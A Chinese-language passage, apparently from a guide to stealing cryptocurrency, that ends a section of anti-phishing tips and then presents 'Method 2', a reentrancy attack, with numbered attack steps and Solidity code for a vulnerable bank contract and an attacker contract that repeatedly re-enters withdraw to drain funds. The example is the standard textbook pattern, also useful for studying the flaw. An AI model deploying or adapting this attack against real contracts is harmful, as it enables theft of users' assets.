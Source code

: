 
**如何防范**：
- 用户应使用硬件钱包（如 Ledger）存储私钥，避免在线输入。
- 检查网站 URL 和 SSL 证书，避免访问钓鱼网站。
- 使用多重签名钱包，增加资产转移的难度。

### 方法 2：利用智能合约漏洞（重入攻击）
**原理**：智能合约可能存在逻辑漏洞，如“重入攻击”（Reentrancy Attack），黑客通过反复调用合约中的函数，在资产提取完成前多次提取资金。常见于以太坊的 Solidity 合约。

**攻击步骤**：
1. 找到一个未正确实现状态更新的提款合约。
2. 部署一个恶意合约，反复调用目标合约的提款函数。
3. 在目标合约更新余额前窃取更多资产。

**代码示例（Solidity）**：
```solidity
// 目标合约（有漏洞）
contract VulnerableBank {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint amount = balances[msg.sender];
        require(amount > 0, "No funds to withdraw");
        (bool success, ) = msg.sender.call{value: amount}(""); // 外部调用，未更新状态
        require(success, "Transfer failed");
        balances[msg.sender] = 0; // 更新状态滞后
    }
}

// 恶意合约（攻击者部署）
contract Attacker {
    VulnerableBank public bank;
    uint public attackCount = 0;
    uint constant MAX_ATTEMPTS = 5;

    constructor(address _bankAddress) {
        bank = VulnerableBank(_bankAddress);
    }

    // 存款以准备攻击
    function deposit() public payable {
        bank.deposit{value: msg.value}();
    }

    // 触发重入攻击
    function attack() public {
        bank.withdraw();
    }

    // 接收资金时反复调用目标合约
    receive() external payable {
        if (attackCount < MAX_ATTEMPTS && address(bank).balance > 0) {
            attackCount++;
            bank.withdraw(); // 重入调用
        }
    }
}
```
